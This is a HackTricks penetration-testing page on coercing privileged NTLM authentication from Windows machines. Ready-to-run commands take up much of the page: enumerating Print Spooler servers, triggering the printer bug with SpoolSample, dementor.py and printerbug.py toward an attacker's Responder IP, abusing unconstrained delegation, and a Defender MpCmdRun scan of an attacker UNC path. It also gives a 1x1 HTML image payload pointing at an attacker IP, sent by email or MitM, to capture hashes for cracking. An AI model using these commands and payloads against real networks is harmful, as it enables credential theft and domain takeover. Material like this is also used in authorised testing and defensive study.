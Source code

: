 # Force NTLM Privileged Authentication

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

## SharpSystemTriggers

****[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) is a **collection** of **remote authentication triggers** coded in C# using MIDL compiler for avoiding 3rd party dependencies.

## Spooler Service Abuse

If the _**Print Spooler**_ service is **enabled,** you can use some already known AD credentials to **request** to the Domain Controller’s print server an **update** on new print jobs and just tell it to **send the notification to some system**.\
Note when printer send the notification to an arbitrary systems, it needs to **authenticate against** that **system**. Therefore, an attacker can make the _**Print Spooler**_ service authenticate against an arbitrary system, and the service will **use the computer account** in this authentication.

### Finding Windows Servers on the domain

Using PowerShell, get a list of Windows boxes. Servers are usually priority, so lets focus there:

```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```

### Finding Spooler services listening

Using a slightly modified @mysmartlogin's (Vincent Le Toux's) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket), see if the Spooler Service is listening:

```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```

You can also use rpcdump.py on Linux and look for the MS-RPRN Protocol

```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```

### Ask the service to authenticate against an arbitrary host

You can compile[ **SpoolSample from here**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**

```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```

or use [**3xocyte's dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) or [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) if you're on Linux

```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```

### Combining with Unconstrained Delegation

If an attacker has already compromised a computer with [Unconstrained Delegation](unconstrained-delegation.md), the attacker could **make the printer authenticate against this computer**. Due to the unconstrained delegation, the **TGT** of the **computer account of the printer** will be **saved in** the **memory** of the computer with unconstrained delegation. As the attacker has already compromised this host, he will be able to **retrieve this ticket** and abuse it ([Pass the Ticket](pass-the-ticket.md)).

## RCP Force authentication

{% embed url="https://github.com/p0dalirius/Coercer" %}

## Inside Windows

If you are already inside the Windows machine you can force Windows to connect to a server using privileged accounts with:

### Defender MpCmdRun

```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```

## HTML injection

### Via email

If you know the **email address** of the user that logs inside a machine you want to compromise, you could just send him an **email with a 1x1 image** such as

```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```

and when he opens it, he will try to authenticate.

### MitM

If you can perform a MitM attack to a computer and inject HTML in a page he will visualize you could try injecting an image like the following in the page:

```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```

## Cracking NTLMv1

If you can capture [NTLMv1 challenges read here how to crack them](../ntlm/#ntlmv1-attack).\
_Remember that in order to crack NTLMv1 you need to set Responder challenge to "1122334455667788"_

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
